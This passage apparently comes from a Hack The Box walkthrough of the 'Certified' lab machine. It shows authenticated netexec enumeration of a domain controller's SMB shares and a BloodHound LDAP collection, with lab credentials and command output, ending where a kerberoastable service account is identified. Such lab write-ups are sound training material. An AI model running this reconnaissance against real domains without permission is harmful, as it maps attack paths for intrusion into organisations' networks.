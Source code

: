 We got the domain name: `certified.htb`, let's keep on enumerating:

```
netexec smb 10.10.11.41 -u 'judith.mader' -p 'judith09'

SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09
```

The credentials we were given show that we have low-initial access to the domain, thanks to this, we can keep enumerating stuff, let's try to enumerate smb shares, but before all of this, let's add the domain controller to `/etc/hosts`:

```bash
echo '10.10.11.41 dc01.certified.htb certified.htb' | sudo tee -a /etc/hosts
```

```
netexec smb 10.10.11.41 -u 'judith.mader' -p 'judith09' --shares
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.10.11.41     445    DC01             [*] Enumerated shares
SMB         10.10.11.41     445    DC01             Share           Permissions     Remark
SMB         10.10.11.41     445    DC01             -----           -----------     ------
SMB         10.10.11.41     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.41     445    DC01             C$                              Default share
SMB         10.10.11.41     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.41     445    DC01             NETLOGON        READ            Logon server share
SMB         10.10.11.41     445    DC01             SYSVOL          READ            Logon server share
```

Not a single interesting share, let's keep on enumerating, let's enumerate ldap with bloodhound:

```
netexec ldap dc01.certified.htb -u judith.mader -p judith09 --bloodhound --collection All --dns-tcp --dns-server 10.10.11.41
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.41     389    DC01             [+] certified.htb\judith.mader:judith09 
LDAP        10.10.11.41     389    DC01             Resolved collection methods: localadmin, group, dcom, acl, session, trusts, container, psremote, rdp, objectprops
LDAP        10.10.11.41     389    DC01             Done in 00M 30S
LDAP        10.10.11.41     389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.10.11.41_2025-03-12_113336_bloodhound.zip
```

Now, let's analyze the data with bloodhound:

![](gitbook/cybersecurity/images/Pasted%20image%2020250312104456.png)

For all kerberoastable accounts we find `management_svc`, let's keep on searching:

![](gitbook/cybersecurity/images/Pasted%20image%2020250312104920.png) ![](gitbook/cybersecurity/images/Pasted%20image%2020250312110254.png)
